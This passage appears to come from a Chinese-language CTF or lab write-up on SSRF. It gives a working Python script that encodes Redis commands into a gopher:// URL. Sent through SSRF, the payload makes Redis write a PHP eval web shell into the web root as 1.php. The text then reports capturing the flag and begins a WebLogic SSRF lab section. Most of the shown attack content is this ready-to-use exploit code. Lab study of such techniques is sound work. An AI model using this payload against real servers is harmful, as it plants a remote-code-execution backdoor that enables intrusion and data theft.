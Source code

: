 转换成gopher格式的python脚本：

```python
import urllib.parse

protocol = "gopher://"
ip = "127.0.0.1"
port = "6379"
shell = "\n\n<?php eval($_POST[\"quan\"]);?>\n\n"
filename = "1.php"
path = "/var/www/html"
passwd = ""
cmd = ["quan",
     "set 1 {}".format(shell.replace(" ","${IFS}")),  
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save",
     "quit"
    ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload = protocol + ip + ":" + port + "/_"
def redis_format(arr):
    CRLF = "\r\n"
    redis_arr = arr.split(" ")
    cmd = ""
    cmd += "*" + str(len(redis_arr))
    for x in redis_arr:
        cmd += CRLF + "$" + str(len((x.replace("${IFS}"," ")))) + CRLF + x.replace("${IFS}"," ")
    cmd += CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))

    # print(payload)
    print(urllib.parse.quote(payload))
```

再利用python脚本将它转换成符合gopher协议的payload：



访问该payload，url=gopher~~

此时已经在web目录下写了1.php。



在根目录找到flag。



（2）weblogic ssrf

下载地址：https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf
 编译并启动环境
